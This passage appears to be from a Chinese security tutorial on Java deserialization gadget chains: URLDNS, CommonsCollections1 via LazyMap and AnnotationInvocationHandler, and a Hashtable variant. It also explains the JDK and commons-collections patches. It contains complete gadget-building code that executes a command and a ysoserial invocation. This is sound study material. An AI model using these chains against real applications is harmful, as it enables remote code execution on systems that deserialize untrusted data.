








简单介绍完 Java 的 反序列化机制，下面来看看反序列化漏洞，也就是 Java 反序列化机制的安全问题。
想要利用反序列化漏洞，就需要 Gadget Chain（可以简称 Gadget 或利用链），所谓 Gadget 可以理解成一系列的方法调用，连接起漏洞的触发点（如：readObject）和最后执行命令的地方（如：Runtime.exec）。如果了解过二进制漏洞或其它语言的反序列化漏洞，想必对它不会陌生。
从 2015 年 Gabriel Lawrence (@gebl) 和 Chris Frohoff (@frohoff) 在 AppSecCali 反序列化漏洞被公布，并随之诞生的第一个里程碑式的工具，ysoserial 是很多人学习 Java 反序列化漏洞的起点。
这个工具包含了很多开箱即用的 Gadget，使用方式很简单，使用下面的命令即可生成一个恶意的序列化数据，在反序列化时会执行 id 命令，这条命令使用的 Gadget 是 CommonsCollections1：
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections1 "id"URLDNS
记得刚学习反序列化那会，在网上随便一搜看到最多的就是 CommonsCollectionsX 的身影。看的是那叫一个头疼，CommonsCollections 系列的利用链虽然知名度高，但对新手不友好。所以这里先从 URLDNS 开始介绍
通常利用链的目的都是为了达到命令执行，这更具有实战意义。但如果只是考虑验证反序列化漏洞则只要确认反序列化被触发了即可。URLDNS 的思路也是如此，通过发起 DNS 外连请求来检测是否触发。这个思路最早应该来自于参考 1。
那么如何才能在反序列化时发起 DNS 请求呢？
java.net.URL
URL 是 JDK 原生自带的类，在它的 equals 方法的注释中有这样一段描述『主要看前半句和后半句』，如果两个主机名解析后的 IP 是相同的，则认为它们相同，并且有说明 equals 方法会对主机名进行解析，为阻塞操作。
Two hosts are considered equivalent if both host names can be resolved into the same IP addresses; else if either host name can’t be resolved, the host names must be equal without regard to case; or both host names equal to null. Since hosts comparison requires name resolution, this operation is a blocking operation.
而 hashCode 方法内也会触发域名解析，所以在反序列化时想办法调用 equals 或 hashCode 方法就能做到发起 DNS 请求。
两种方法触发 DNS 解析的调用栈如下
// by equals
getHostAddress:755, URL (java.net)
getHostAddress:434, URLStreamHandler (java.net)
hostsEqual:446, URLStreamHandler (java.net)
sameFile:418, URLStreamHandler (java.net)
equals:339, URLStreamHandler (java.net)
equals:913, URL (java.net)
// by hashCode
getHostAddress:755, URL (java.net)
getHostAddress:434, URLStreamHandler (java.net)
hashCode:359, URLStreamHandler (java.net)
hashCode:928, URL (java.net)
HashMap
想触发 hashCode 方法，最容易想到的就是 HashMap，它在反序列化时会读取所有的元素并调用 putVal 存入，同时计算它们的 hash 值
下面是整个利用链的触发过程
Gadget Chain:
HashMap.readObject()
HashMap.putVal()
HashMap.hash()
URL.hashCode()
尝试构造利用链
public static void main(String[] args) throws MalformedURLException {
URL url = new URL("http://efarxjuiph.dnstunnel.run");
HashMap<URL, String> map = new HashMap<>();
map.put(url, "1");
try (ObjectOutputStream oos =
new ObjectOutputStream(Files.newOutputStream(Paths.get("target/urldns.bin")))) {
oos.writeObject(map);
} catch (IOException e) {
e.printStackTrace();
}
try (ObjectInputStream ois =
new ObjectInputStream(Files.newInputStream(Paths.get("target/urldns.bin")))) {
ois.readObject();
} catch (IOException | ClassNotFoundException e) {
e.printStackTrace();
}
}但这里有一些问题，在序列化的时候就触发了 DNS 请求，这是因为 put 方法也会计算 hash 值从而调用了 hashCode。

另一个问题，反序列化时并没有触发 DNS 请求『URL#getHostAddress 并没有触发』。
先解决反序列化时的问题，首先需要知道的是在序列化时 URL 的成员 hashCode 也会被写入『@serial 已经说明了』
/* Our hash code.
* @serial
*/
private int hashCode = -1;序列化时调用了 hashCode 方法，它会对成员 hashCode 赋值
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
}修改方式也很简单，通过反射修改 hashCode 字段值即可
Reflections.setFieldValue(url, "hashCode", -1);
Mac下可通过dscacheutil -flushcache清楚DNS缓存。
接下来为了避免序列化时触发 DNS 请求，也就要避免在 hashCode 中发起 DNS 请求，从 URL 中的实现可以看到会调用 handler.hashCode(this) 计算结果。
而 handler 的类型是 URLStreamHandler，开发者可以继承这个抽象类并自定义 handler 的行为。可以重写 hashCode 方法，下面实现一个 SilenceURLStreamHandler，它的 hashCode 方法直接返回 -1 不进行其它操作。
private static class SilenceURLStreamHandler extends URLStreamHandler {
@Override
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
@Override
public int hashCode(URL u) {
return -1;
}
}完整的构造代码
public class URLDNS {
private static class SilenceURLStreamHandler extends URLStreamHandler {
@Override
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
@Override
public int hashCode(URL u) {
return -1;
}
}
public static void main(String[] args) throws Exception {
URL url = new URL(null, "http://tribfayzgp.dnstunnel.run", new SilenceURLStreamHandler());
HashMap<URL, String> map = new HashMap<>();
map.put(url, "1");
Reflections.setFieldValue(url, "hashCode", -1);
ObjectOutputStream oos =
new ObjectOutputStream(Files.newOutputStream(Paths.get("target/urldns.bin")));
oos.writeObject(map);
ObjectInputStream ois =
new ObjectInputStream(Files.newInputStream(Paths.get("target/urldns.bin")));
ois.readObject();
}
}CommonsCollections
当我第一次学习它的时候，有许多不理解，但并未深究。为此给之后带来了些许问题，利用链的学习很容易陷入跟着调用栈走一遍的尴尬，而没有实质性的收获。
CommonsCollections 利用链最早的形式是 CommonsCollections1，位于 ysoserial 工具中，由 frohoff 在 OWASP AppSecCali 2015 上发布。这条利用链主要借助 commons-collections 库实现命令执行。
当然它能讲的东西还很多，CommonsCollections1 的整体结构略复杂，从学习的角度看把它拆开逐步来看会更合适。
可从 CommonsCollections1.java 查看利用链调用栈。
LazyMap 利用链
LazyMap 是 CommonsCollections1 中承上启下的一部分，化繁为简，先来看下面这段代码。
LazyMapExec.java
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);
lazyMap.get("key");运行一下应该就能看到计算机弹窗了

即便对 CommonsCollections1 不了解，如果理解 Java 反射，大概也能猜到 chainedTransformer 是在做什么；它的作用等价于执行 Runtime.getRuntime().exec("open -a calculator")。
那触发 chainedTransformer 执行的自然就是主角之一的 LazyMap，在 LazyMap 的注释中有写道
Decorates another Map to create objects in the map on demand. When the get(Object) method is called with a key that does not exist in the map, the factory is used to create the object. The created object will be added to the map using the requested key.
LazyMap 借助底层的 Map 来存储创建的对象，如果在调用 get 方法时，对应的 key 不存在，那么就会使用成员 factory 创建这个 key 对应的对象并添加进 map 中。
这里的 factory 类型是 Transformer，在本例为 ChainedTransformer。
Transformer
在介绍 ChainedTransformer、ConstantTransformer、InvokerTransformer 前先来了解 Transformer 接口，因为前者都是它的实现类。接口中只声明了一个方法，作用是将输入对象转换为另一个输出对象
public interface Transformer {
public Object transform(Object input);
}而 ChainedTransformer、ConstantTransformer、InvokerTransformer 对它的实现逻辑则是
ConstantTransformer：直接返回输入对象InvokerTransformer：调用输入对象的指定方法ChainedTransformer：将Transformer的输出作为下一个Transformer的输入，串连起来
那么现在需要能够触发 Transformer 的地方，利用链中用到了 LazyMap，前面已经提到如果在调用 get 方法时，对应的 key 不存在，那么就会使用成员 factory(Transformer) 创建这个 key 对应的对象并添加进 map 中。
所以在 LazyMapExec 中 lazyMap.get("key"); 触发了 chainedTransformer 的执行。调用栈非常简单，只有 2 层。
transform:121, ChainedTransformer (org.apache.commons.collections.functors)
get:151, LazyMap (org.apache.commons.collections.map)
main:33, LazyMapExec (com.trganda.gadget.commonscollection)
AnnotationInvocationHandler
但是 LazyMap#readObject 方法中并不会调用 get 方法，为此需要找一个类，它在反序列化时能够调用 LazyMap#get 方法。满足这一点通常说明它内部有成员的类型是与 LazyMap 兼容的。
而 sun.reflect.annotation.AnnotationInvocationHandler 正好满足
AnnotationInvocationHandler 有两个主要成员，其中 memberValues 类型为 Map<String, Object>，
private final Class<? extends Annotation> type;
private final Map<String, Object> memberValues;
先瞅一眼它的 readObject 方法，
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
s.defaultReadObject();
// Check to make sure that types have not evolved incompatibly
AnnotationType annotationType = null;
try {
annotationType = AnnotationType.getInstance(type);
} catch(IllegalArgumentException e) {
// Class is no longer an annotation type; time to punch out
throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
}
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// If there are annotation members without values, that
// situation is handled by the invoke method.
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name); // [1] 调用 get 方法
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
memberValue.setValue(
new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name)));
}
}
}
}但是并没有看到直接调用 memberValues(假设为 LazyMap).get 方法的地方，倒是在 [1] 看到了 memberTypes.get(name)，要怎么样才能调用 LazyMap#get 方法呢？为了实现这一点，需要转个弯『这个弯并不太好理解』。
首先虽然没有直接调用 memberValues.get，但是有调用 memberValues.entrySet()，而 AnnotationInvocationHandler 自身实现了 InvocationHandler 接口可以用作创建代理对象，有关动态代理的内容，可见 Java 安全 - 动态代理。
如果让 AnnotationInvocationHandler 代理 Map 接口，那么在调用 entrySet 方法时触发 invoke 方法，在 invoke 中再调用 memberValues.get。而在 [2] 中，确实有调用 memberValues.get 方法的地方。
public Object invoke(Object proxy, Method method, Object[] args) {
String member = method.getName();
Class<?>[] paramTypes = method.getParameterTypes();
// Handle Object and Annotation methods
if (member.equals("equals") && paramTypes.length == 1 &&
paramTypes[0] == Object.class)
return equalsImpl(args[0]);
if (paramTypes.length != 0)
throw new AssertionError("Too many parameters for an annotation method");
switch(member) {
case "toString":
return toStringImpl();
case "hashCode":
return hashCodeImpl();
case "annotationType":
return type;
}
// Handle annotation member accessors
Object result = memberValues.get(member); // [2] 调用 `memberValues.get` 触发 chainedTransformer。
if (result == null)
throw new IncompleteAnnotationException(type, member);
if (result instanceof ExceptionProxy)
throw ((ExceptionProxy) result).generateException();
if (result.getClass().isArray() && Array.getLength(result) != 0)
result = cloneArray(result);
return result;
}LazyMapAnnotationExec.java
按照这个思路修改代码，构造利用链
public static Object getObject() throws Exception {
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), chainedTransformer);
InvocationHandler handler =
(InvocationHandler)
Reflections.getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, lazyMap);
// 代理 Map 接口
Map map =
(Map)
Proxy.newProxyInstance(
ClassLoader.getSystemClassLoader(),
new Class[] {Map.class},
handler);
// 需要再次进行创建一个 `AnnotationInvocationHandler`，因为 `Proxy` 类虽然实现了 Serializable 接口但是没有实现 `readObject` 方法，反序列化时不会有其它操作。
InvocationHandler anotherHandler =
(InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, map);
return anotherHandler;
}将 getObject 的返回结果序列化『可以检查一下序列化时命令是否被执行』，再反序列化，应该能看到计算器被打开了。

但这里遗留着一点问题，为什么构造 AnnotationInvocationHandler 时需要使用 Overload.class？以及，为什么要对创建的代理对象 map 再次进行封装。
对于第一个问题，因为在 AnnotationInvocationHandler 的构造方法里，会检查参数类型是否为一个 Annotation，所以使用了 Overload.class，当然也可以使用其它注解类型。
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
Class<?>[] superInterfaces = type.getInterfaces();
if (!type.isAnnotation() ||
superInterfaces.length != 1 ||
superInterfaces[0] != java.lang.annotation.Annotation.class)
throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
this.type = type;
this.memberValues = memberValues;
}对于第二个问题，其实很简单，首先反序列化的起点是 AnnotationInvocationHandler，如果直接返回 map 对象算怎么回事。其次 map 对象本质是一个代理对象，它并没有自己实现 readObject 方法，反序列化时没有默认行为外的操作，无法进行利用，也不会进一步触发利用链。
序列化时触发了命令执行
如果你以非 Debug 模式运行前面的代码，在序列化时大概率是不会触发命令执行的。可如果切换至 Debug 模式执行，大概会看到不该出现的计算机弹窗。
没能找出上述现象产生的原因，在序列化时，尝试在
ChainedTransformer#transformer打断点，但并没有用。
解决办法也很简单，先用一个无害的 ChainedTransformer，在构造完毕后通过反射，将 LazyMap 的成员 factory 替换为用于命令执行的 ChainedTransformer。
ChainedTransformer fakeTransformer =
new ChainedTransformer(new Transformer[] {new ConstantTransformer("1")});
// ...
InvocationHandler anotherHandler =
(InvocationHandler)
Reflections.getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, map);
Reflections.setFieldValue(lazyMap, "factory", chainedTransformer);简化版调用关系梳理
下面梳理一下利用链在反序列化时的调用过程
ObjectInputStream.readObject
// 调用 AnnotationInvocationHandler 的 readObject 方法，第一次
AnnotationInvocationHandler.readObject
// 调用 readObject，第二次
AnnotationInvocationHandler.readObject
// 恢复成员的内容，此时的 memberValues 为 lazyMap
s.defaultReadObject()
// 第一次调用 entrySet（size 为 0），此时是直接调用 LazyMap#entrySet，没有调用 get 方法，不会触发命令执行。
memberValues.entrySet
// 返回第一层 readObject，再次调用了 entrySet 方法，但实际调用的是 $Proxy#entrySet，即代理对象的entrySet方法
memberValues.entrySet
$Proxy0(LazyMap).entrySet
// 触发代理类 handler(AnnotationInvocationHandler) 的 invoke 方法
super.h.invoke(this, m14, null);
// 调用 LazyMap#get 方法，触发后续链条执行命令
memberValues(LazyMap).get
ChainedTransformer.transform
ConstantTransformer.transform
InvokerTransformer.transform
Runtime.exec8u71 为什么失败
前面的用例测试环境为 8u66，可如果在 8u71 上运行并不会弹窗，并且会出现如下异常信息，主要内容为 java.lang.Override missing element entrySet
Exception in thread "main" java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet
at sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:81)
at com.sun.proxy.$Proxy0.entrySet(Unknown Source)
在 IDE 中查看 AnnotationInvocationHandler，会发现代码有较大变化，最凸显的内容，就是多了个私有类 UnsafeAccessor，且 readObject 方法的实现也发生了改变
具体的差异，可以在 44ad83395ee267fdd564d4d37bd43594f3f48a46 查看，
commit中描述的内容为Cleanup for handling proxies。
从 commit 的描述看能了解到此次修改的目的是让 AnnotationInvocationHandler 不再具备操作其它代理类的能力。

分析一下修改的内容，首先成员的反序列化不再通过 defaultReadObject，而是 s.readFields()，此方法也会触发成员的反序列化，但这不是需要重点。
调用此方法获取成员内容后，并不会直接赋值给 this 对象，而是交给本地变量 streamVals，这意味着成员 memberValues 此刻为 null。
而 memberValues 的赋值位于 UnsafeAccessor.setMemberValues(this, mv);，而 mv 的类型是固定的，为 LinkedHashMap，而非 LazyMap，这意味着此利用链无法被使用，因为成员 memberValues 已经不可控了。
梳理一下调用链
ObjectInputStream.readObject
// 调用 AnnotationInvocationHandler 的 readObject 方法，第一次
AnnotationInvocationHandler.readObject
// 调用 readObject，第二次
AnnotationInvocationHandler.readObject
// 读取成员的内容，此时的 this.memberValues 为 null
s.readFields();
// 将读取的 memberValues（序列化流中的内容，非 this） 赋值给本地变量 streamVals
Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);
// 创建临时变量 mv
Map<String, Object> mv = new LinkedHashMap<>();
// 第一次调用 entrySet（size 为 0），此时是直接调用 LazyMap#entrySet，没有调用 get 方法，不会触发命令执行。
streamVals.entrySet
// 将 mv 赋值给 this.memberValues，类型为 LinkedHashMap
UnsafeAccessor.setMemberValues(this, mv);
// 返回第一层 readObject，再次调用了 entrySet 方法，但实际调用的是 $Proxy#entrySet，即代理对象的 entrySet 方法
memberValues.entrySet
$Proxy0(LinkedHashMap).entrySet
// 触发代理类 handler(AnnotationInvocationHandler) 的 invoke 方法
super.h.invoke(this, m14, null);
// 调用 LinkedHashMap#get 方法，此时 this.memberValues 的类型早已不是 LazyMap，不会触发命令执行，因为 this.memberValues 的大小是 0，get获取的内容为 null，从而引发 IncompleteAnnotationException 异常。
memberValues(LinkedHashMap).getCommons Collections 的修复与变化
CommonsCollections1 依赖 commons-collections:3.x，如果在 commons-collections4:4.x 中使用呢？
先试试 commons-collections4:4.0，记得将导入的包名进行替换
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.LazyMap;并将
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), chainedTransformer);替换为
LazyMap lazyMap = (LazyMap) LazyMap.lazyMap(new HashMap<>(), fakeTransformer);测试可以看到，依旧正常弹窗，但是若将版本切换至 4.1，则会失败，异常信息如下
Exception in thread "main" java.io.NotSerializableException: org.apache.commons.collections4.functors.InvokerTransformer
意思很明白，InvokerTransformer 不允许被序列化了，修复方式可谓非常简单粗暴。
再来看看 3.x 版本的变化，3.x 的最后一个版本为 3.2.2，发布于 2015 年。在此版本下测试前面的利用链也会失败，异常信息如下
Exception in thread "main" java.lang.UnsupportedOperationException: Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources.
at org.apache.commons.collections.functors.FunctorUtils.checkUnsafeSerialization(FunctorUtils.java:183)
从 InvokerTransformer 文件的注释中可以看到，如果尝试序列化会触发异常 UnsupportedOperationException
WARNING: from v3.2.2 onwards this class will throw an
UnsupportedOperationExceptionwhen trying to serialize or de-serialize an instance to prevent potential remote code execution exploits.
所以可以得出的一个大致结论是，CC1 在以下条件中有效：
JDK/JRE < 8u71commons-collections < 3.2.2或commons-collections4 4.0
LazyMapHashMapExec.java
前面提到 AnnotationInvocationHandler 在高版本 JDK 中已经修复，无法作为利用链的一部分继续使用。所以需要一个替代品，能够在反序列化时调用到 LazyMap#get 方法。
下面介绍另一个主角，HashMap#equals 方法，或者说 AbstractMap#equals 方法，因为 HashMap 继承自 AbstractMap 。
AbstractMap是Map类型的骨架类，实现了Map接口的一些基础方法。
此方法的代码片段如下，[3] 能看到对 Map#get 方法对调用，
public boolean equals(Object o) {
if (o == this)
return true;
if (!(o instanceof Map))
return false;
Map<?,?> m = (Map<?,?>) o; // 转换参数 o
if (m.size() != size())
return false;
try {
Iterator<Entry<K,V>> i = entrySet().iterator();
while (i.hasNext()) {
Entry<K,V> e = i.next();
K key = e.getKey();
V value = e.getValue();
if (value == null) {
if (!(m.get(key)==null && m.containsKey(key)))
return false;
} else {
if (!value.equals(m.get(key))) // [3] 调用 m.get，也就是o.get
return false;
}
}
// ...观察 AbstractMap#equals 方法，想要调用 get 方法，需要保证 entrySet 不为空，也就是 map 的内容不能为空（无论 key 还是 value）。
下面来看一段示例代码，说明如何利用这一点
public static void main(String[] args) {
ConstantTransformer fake = new ConstantTransformer("fake");
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), fake);
lazyMap.put("k1", "v1");
// payload 放置在 lazyMap2，也就是 equals 方法的参数中
LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);
lazyMap2.put("k2", "v2");
System.out.println(lazyMap.equals(lazyMap2));
}由于 LazyMap 内部的 map 成员为 HashMap，当调用 LazyMap#equals 方法时，实际调用的是 HashMap#equals 方法，即 AbstractMap#equals 方法，这里并不难理解。
而如果想构造真正的利用链，还差了最后一步 Hashtable#readObject。Hashtable#readObject 中能够触发至 Map#equals 方法，
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException
{
// Read in the length, threshold, and loadfactor
s.defaultReadObject();
// ...
// Read the number of elements and then all the key/value objects
for (; elements > 0; elements--) {
@SuppressWarnings("unchecked")
K key = (K)s.readObject();
@SuppressWarnings("unchecked")
V value = (V)s.readObject();
// synch could be eliminated for performance
reconstitutionPut(table, key, value);
}
}
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
throws StreamCorruptedException
{
if (value == null) {
throw new java.io.StreamCorruptedException();
}
// Makes sure the key is not already in the hashtable.
// This should not happen in deserialized version.
int hash = key.hashCode();
int index = (hash & 0x7FFFFFFF) % tab.length;
for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
if ((e.hash == hash) && e.key.equals(key)) {
throw new java.io.StreamCorruptedException();
}
}
// ...
}调用点实际存在于 Hashtable#reconstitutionPut。
哈希碰撞
按照前面的思路，编写以下代码
public static Object getObject() throws Exception {
ConstantTransformer fake = new ConstantTransformer("fake");
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer(
"getMethod",
new Class[] {String.class, Class[].class},
new Object[] {"getRuntime", new Class[0]}),
new InvokerTransformer(
"invoke",
new Class[] {Object.class, Object[].class},
new Object[] {null, new Object[0]}),
new InvokerTransformer(
"exec",
new Class[] {String.class},
new Object[] {"open -a calculator"})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), fake);
lazyMap.put("k1", "v1");
LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(new HashMap(), fake);
lazyMap2.put("k2", "v2");
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap, "1");
hashtable.put(lazyMap2, "2");
Reflections.setFieldValue(lazyMap2, "factory", chainedTransformer);
return hashtable;
}但是并没有弹窗，原因还得在 Hashtable#reconstitutionPut 中寻找，
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
throws StreamCorruptedException
{
if (value == null) {
throw new java.io.StreamCorruptedException();
}
// Makes sure the key is not already in the hashtable.
// This should not happen in deserialized version.
int hash = key.hashCode();
int index = (hash & 0x7FFFFFFF) % tab.length;
